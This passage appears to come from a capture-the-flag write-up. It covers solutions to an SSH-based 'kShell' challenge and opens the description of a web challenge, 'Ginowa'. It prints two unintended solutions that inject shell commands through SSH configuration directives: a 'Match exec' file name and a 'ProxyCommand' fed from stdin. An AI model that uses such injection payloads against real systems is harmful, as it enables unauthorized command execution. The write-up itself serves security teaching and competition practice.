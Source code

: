 step 4. now, you can ssh login with your own private key:

```
on your server: ssh kShell@localhost -p 12345 -i ./private_key
```


#### Unintended Solution

**Solution 1**:

(The first part of this solution is very similar to my intended solution)

- https://gist.github.com/lebr0nli/14b59e8e66c50aa0ff172640d1bb1727
    - Create a log file with the filename: `Match exec "sh 0<&2 1>&2" #`.
    - Use this log file as a configuration file. It will trigger an error that includes our match payload at the beginning of the line. Capture these errors in the win file.
    - Load the win file as the configuration file. Profit!

(by lebr0nli)

<br>

**Solution 2**:

```
ssh -F /dev/stdin localhost

ProxyCommand ;/readflag >&2

send Ctrl+D after input
```

(by Crazyman)

<br>

... and more!

---

## Ginowa

- Difficulty: ★★
- Type: Web
- Solved: 13 / 333

### Description

Ginowa is the best dating website designed for Chihuahua to meet new friends!

Try to run `C:/readflag_[some_random_hex].exe` on the backend to get the flag!

http://ginowa-1.balsnctf.com

http://ginowa-2.balsnctf.com

Author: kaibro

### Source Code
